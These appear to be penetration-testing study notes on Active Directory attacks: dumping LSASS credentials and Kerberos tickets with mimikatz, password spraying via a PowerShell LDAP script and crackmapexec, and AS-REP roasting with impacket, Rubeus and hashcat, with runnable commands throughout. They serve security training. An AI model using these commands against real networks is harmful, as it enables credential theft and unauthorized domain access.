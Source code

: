 Hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.
LSASS process is part of the OS and runs as SYSTEM - so we need SYSTEM permissions to gain access to the hashes stored on a target.
In mimikatz enter privilege::debug - engage the SeDebugPrivilege privilege which will allow us to interact with a process owned by another account.
`sekurlsa::logonpasswords` - to dump the creds of all logged-on users with the sekurlsa module.
>An effective defensive technique to prevent tools such as Mimikatz from extracting hashes is to enable additional _LSA Protection_. The LSA includes the LSASS process. By setting a registry key, Windows prevents reading memory from this process. We'll discuss how to bypass this and other powerful defensive mechanisms in-depth in OffSec's _Evasion Techniques and Breaching Defenses_ course, PEN-300.

On old versions of Windows, WDigest will be enabled, so mimikatz will reveal for us passwords in a cleartext.
`sekurlsa::tickets` - to show the tickets that are stored in memory.
Stealing TGS - access only particular resources associated with those tickets.
Stealing TGT - allows us to request a specific TGS for specific service.
With mimikatz we can use crypto module and patch CryptoAPI function with `crypto::capi` or Keylso service with `crypto::cng` making non-exportable keys exportable.
# Performing Attacks on AD Authentication
## Passwords Attacks
`net accounts` - to check password and lockout policy.
Password Spraying through LDAP and ADSI - low and slow. Below is an example:
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
If the user account is correct, the object creation will be successful:
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
Spray-Passwords.ps1
Password Spraying through SMB - traditional approach, noisy and slow. Below is an example using crackmapexec:
```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
Password Spraying through obtaining a TGT - using kinit, uses UDP.
bash script or kerbrute
## AS-REP Roasting
Without Kerberos preauthentication an attack could perform an offline password attack against the encrypted part of the response - AS-REP Roasting
Impacket-GetNPUsers:
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
`sudo hashcat -m 18200 hashes.asreproast`
Rubeus:
```
.\Rubeus.exe asreproast /nowrap
```
Rubeus will automatically identify vulnerable user accounts. /nowrap to prevent new lines being added to the resulting AS-REP hashes.
To identify domain users with Do not require Kerberos Preauthentication we can use powerview:
`Get-DomainUser -PreauthNotRequired`